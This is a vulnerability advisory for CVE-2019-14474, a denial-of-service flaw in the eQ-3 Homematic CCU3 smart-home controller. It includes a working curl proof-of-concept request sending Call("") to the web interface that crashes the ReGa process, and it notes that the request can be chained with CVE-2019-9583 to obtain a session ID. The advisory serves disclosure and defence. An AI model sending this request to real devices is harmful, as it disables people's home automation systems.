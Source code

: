 ```yaml
---
layout: post
title:  "CVE-2019-14474 eQ-3 Homematic CCU3 has Improper Input Validation in function 'Call()' of ReGa core logic process, resulting in the ability to start a Denial of Service. Due to Improper Authorization an attacker can obtain a session ID from CVE-2019-9583 or a valid guest/user/admin account can start this attack too"
datetime: 2019-08-01 20:00:00 MEST
last_modified_at: 2019-08-03 23:45:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14474
- Author: psytester
- Title: eQ-3 Homematic CCU3 has Improper Input Validation in function 'Call()' of ReGa core logic process, resulting in the ability to start a Denial of Service. Due to Improper Authorization an attacker can obtain a session ID from CVE-2019-9583 or a valid guest/user/admin account can start this attack too
- Vulnerability Type: CWE-20: Improper Input Validation
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 03.08.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU3
- Vendor contacted: 08.05.2019
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested

# Background

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page objects and the WebUI calls behind in browser developer console, an Improper Input Validation vulnerability has been identified. It can be exploited in order to start a Denial of Service of the ReGa core logic process. This vulnerability can be exploited by unauthenticated attackers with access to the web interface with obtaining a SessionID from CVE-2019-9583 and by authenticated users too.<br>
<br>
First get a SessionID from any page detected by CVE-2019-9583 or login as valid user.<br>
<br>
On shell console verify the ReGa process PID:<br>
```
# ps -afe | grep ReGa
20956 root      0:00 /bin/ReGaHss.normal -f /etc/rega.conf -l 2
20998 root      0:00 grep ReGa
```

Send this POST request with a ```Call("")```, means double quotation marks without content and your SessionID:<br>
```curl -X POST -i 'http://1.2.3.4/esp/exec.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[Call("")]]></prototypejs>'```<br>
<br>
This results into  ```HTTP 500 Internal Server Error```<br>
<br>
On shell console you can verify that the ReGa process has been died and the CCU does not longer work:<br>
```
# ps -afe | grep ReGa
21019 root      0:00 grep ReGa
```

# CVE

[CVE-2019-14474](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14474)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
